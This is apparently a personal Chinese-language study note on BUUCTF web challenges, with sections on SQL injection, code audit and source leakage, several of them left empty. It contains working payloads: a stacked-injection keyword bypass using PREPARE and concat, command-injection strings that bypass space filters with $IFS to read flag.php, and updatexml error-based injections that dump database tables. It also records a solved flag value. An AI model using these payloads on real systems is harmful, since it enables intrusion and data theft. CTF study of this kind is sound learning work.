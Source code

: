 # SQL注入漏洞:

## SQL注入:



## 参数提交注入:



## 报错盲注:



## 二次注入:



## SQL堆叠注入:



# SQL例题：

## 1.随便注：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)

预编译：

PREPARE y

from 

sql;

EXECUTE y;

这里的y是起了一个别名，可以是任意的字符

当我们遇到关键查询词被屏蔽可以使用concat()函数，它可以联合参数。

```
PREPARE y from concat('sel','ect *from 表名') EXECUTE y;
```

## 2.

# 代码审计:

## 1.Warm Up:[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[HCTF%202018]WarmUp)

## 2.Ping Ping Ping:[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping)

命令执行是可以使用";"来分割的，使用‘ls’来查看当前目录下的文件，再使用‘cat’命令来打开文件如果遇到waf



一些空格绕过的方法:

```
${IFS},IFS,$IFS$9
```



这样就可以获得flag

```
ip=127.0.0.1;u=ag;cat$IFS$9fl$u.php
```

```
ip=127.0.0.1;cat$IFS$9`ls`
```

这里的反引号的作用是，把ls的输出当作输入

ls正常输出是cat.php和flag.php

这里我们利用他的输出结果再输入可以达到一样的效果来绕过





and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='ctf'),0x7e),1)



and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='ctf' and table_name='hexo'),0x7e),1)

and updatexml(1,concat(0x7e,(select group_concat(value) from ctf.Fl4g),0x7e),1)

and updatexml(1,concat(0x7e,(select group_concat(value) from ctf.Fl4g limit 0,1),0x7e),1)

and updatexml(1, concat(0x7e, substr((select group_concat(value) from ctf.Fl4g), 19, 25), 0x7e), 1)



flag{4591b7d6-bce4-4189-a9b5-6be0999c0091}



# 源码泄露:

## 1.admin:[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[HCTF%202018]admin)

![3b97fea2-ff5a-4c66-8686-9eca31bc6b11](file:///C:/Users/san/Pictures/Typedown/3b97fea2-ff5a-4c66-8686-9eca31bc6b11.png)

![e86cfba6-3daa-48e2-b8e0-a6236343ac85](file:///C:/Users/san/Pictures/Typedown/e86cfba6-3daa-48e2-b8e0-a6236343ac85.png)

报错回显显示服务器遇到内部错误，无法完成请求。

因此判断与SQL基本无关，如果是SQL注入，他的报错一个是数据库内置的一个报错

我们就按照用户注册，登录，查看修改部分

找到他的源码泄露

![7c3ad0b3-a6c5-4b13-a138-d2808c314750](file:///C:/Users/san/Pictures/Typedown/7c3ad0b3-a6c5-4b13-a138-d2808c314750.png)



# 综合:

## 1.Hack World:[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1]Hack%20World)

爬虫，异或注入
